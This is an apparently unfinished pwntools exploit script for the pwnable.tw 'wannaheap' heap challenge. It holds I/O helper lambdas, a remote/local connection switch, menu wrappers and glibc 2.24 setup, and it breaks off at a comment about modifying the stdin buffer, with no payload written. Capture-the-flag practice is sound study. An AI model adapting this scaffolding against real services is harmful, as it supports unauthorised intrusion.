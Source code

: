 ## Epitome

```python
from pwn import *

s      = lambda data               :sh.send(data) 
sa      = lambda delim,data         :sh.sendafter(delim, data)
sl      = lambda data               :sh.sendline(data)
sla     = lambda delim,data         :sh.sendlineafter(delim, data)
sea     = lambda delim,data         :sh.sendafter(delim, data)
r      = lambda numb=4096          :sh.recv(numb)
ru      = lambda delims, drop=True  :sh.recvuntil(delims, drop)
info_addr = lambda tag, addr        :sh.info(tag +': {:#x}'.format(addr))
itr     = lambda                    :sh.interactive()

if args['REMOTE']:
	sh=remote('chall.pwnable.tw',10305)
else:
	sh=process("./wannaheap")

if args['I386']:
	context.arch='i386'
else:
	context.arch='amd64'

if args['DEBUG']:
	context.log_level='debug'

def debug(command=''):
	context.terminal = ['tmux', 'splitw', '-v']
	gdb.attach(sh,command)

def choice(elect):
	ru(':')
	sl(str(elect).encode())

def add(size):
	choice(1)
	ru(':')
	sl(str(size).encode())

def edit(index,content):
	choice(2)
	ru(':')
	sl(str(index).encode())
	ru(':')
	sl(content)

def show(index):
	choice(4)
	ru(':')
	sl(str(index).encode())

def delete(index):
	choice(3)
	ru(':')
	sl(str(index).encode())

def exp():
	libc=ELF("/glibc/2.24/64/lib/libc-2.24.so")
	#libc=ELF("./libc-2.24.so")
	debug("b*0x7ffff7aa36aa\nc")
	#1.modify stdin buffer
```